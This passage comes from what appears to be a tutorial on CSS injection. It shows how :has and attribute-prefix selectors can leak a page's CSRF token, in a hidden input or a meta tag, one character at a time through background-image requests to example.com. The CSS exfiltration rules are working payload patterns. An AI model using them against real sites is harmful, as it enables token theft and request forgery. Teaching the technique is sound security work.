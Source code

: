 In this case, it was really impossible to do anything before because CSS did not have a selector that could select "the element in front of it", so it was really helpless.

But now it's different because we have [:has](https://developer.mozilla.org/en-US/docs/Web/CSS/:has), which can select "the element below that meets special conditions", like this:

``` css
form:has(input[name="csrf-token"][value^="a"]){
  background: url(https://example.com?q=a)
}
```

This means "I want to select the form below (the input that meets that condition)", so the form will be the one that loads the background, not the hidden input. This has selector is very new and has only been officially supported since Chrome 105 released at the end of last month. Only the stable version of Firefox has not yet supported it. For details, see: [caniuse](https://caniuse.com/css-has)

![caniuse](/img/css-injection-1/p1.png)

With has, it is basically invincible because you can specify which parent element to change the background, so you can select it however you want.

## Stealing meta

In addition to placing the data in a hidden input, some websites also place the data in `<meta>`, such as `<meta name="csrf-token" content="abc123">`. Meta is also an invisible element. How can we steal it?

First of all, as mentioned at the end of the previous paragraph, `has` is absolutely stealable, and you can steal it like this:

``` css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```

But in addition to this, there are other ways to steal it.

Although meta cannot be seen, unlike hidden input, we can use CSS to make this element visible:

``` css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

![style](/img/css-injection-1/p2.png)

But this is not enough. You will find that the request has not been sent yet. This is because meta is under head, and head also has the default `display:none` property, so you also need to set head specially to make meta "visible":
